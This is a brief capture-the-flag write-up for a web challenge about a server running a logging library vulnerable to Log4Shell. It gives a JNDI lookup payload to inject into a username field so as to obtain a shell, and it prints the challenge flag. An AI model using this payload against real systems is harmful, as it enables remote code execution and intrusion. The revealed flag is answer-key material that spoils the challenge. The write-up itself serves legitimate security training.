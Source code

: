 > # The Logs Are Flawed
> > Web - 500pts
>
> The Galactic empire have found a flaw in an old piece of software that they think the rebel alliance is using.  
> This flaw affects the logging application used on one of their secret servers.  
> You and the rest of the empire digital attack force are tasked with using the bug to extract secret information from the server found at (link).
> 
> ![hacker](https://68.media.tumblr.com/f34726c691d11ac56adcdc21f0f38a4c/tumblr_omsi8eaput1so18vqo1_540.gif)

# Writeup

The server is intentionally vulnerable to the recently discovered log4j bug.  
This can be exploited to enter a shell on the server and print the file /flag.txt inside the docker container.  
The vulnerable server is a slightly modified version of https://github.com/kozmer/log4j-shell-poc.   
Use their proof of concept application to enter '${jndi:ldap://localhost:1389/a}' into the username field and forward to a shell application.  
Use this shell to read the flag.txt file from either / or /usr/local/tomcat.

flag: 
```
UiTHack22{There_Are_Bugs_In_The_LoGs}
```
